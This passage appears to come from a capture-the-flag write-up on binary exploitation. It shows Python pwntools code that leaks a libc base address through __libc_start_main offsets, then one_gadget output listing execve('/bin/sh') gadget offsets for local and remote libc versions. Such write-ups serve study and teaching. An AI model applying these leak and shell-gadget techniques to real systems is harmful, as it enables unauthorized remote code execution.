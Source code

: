 ```python
p.sendline('pjslf')
p.recvuntil('> ')

if remote_leak:
    # remote libc-2.23.so
    libc_start_main_instr_offset = 240
    libc_start_main_offset = 0x20740
else:
    # local libc-2.28.so
    libc_start_main_instr_offset = 235
    libc_start_main_offset = 0x23fb0

# find libc address
libc_start_main_addr = find_libc_start_main_addr(libc_start_main_instr_offset)
libc_base_addr = libc_start_main_addr - libc_start_main_offset
print 'libc_start_main_offset: ', hex(libc_start_main_offset)
print 'libc_start_main_addr:   ', hex(libc_start_main_addr)
print 'libc_base_addr:         ', hex(libc_base_addr)

# end the game
p.sendline('4')
p.close()
```

##### Find one-gadget RCE

To find RCE gadgets I used a tool called [one_gadget](https://github.com/david942j/one_gadget) which worked flawlessly.

Local `libc` version:

```
$ one_gadget libc-2.28-debian10_amd64.so 
0x4484f execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x448a3 execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xe5456 execve("/bin/sh", rsp+0x60, environ)
constraints:
  [rsp+0x60] == NULL
```

Remote `libc` version:

```
$ one_gadget libc6_2.23-0ubuntu11_amd64.so 
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
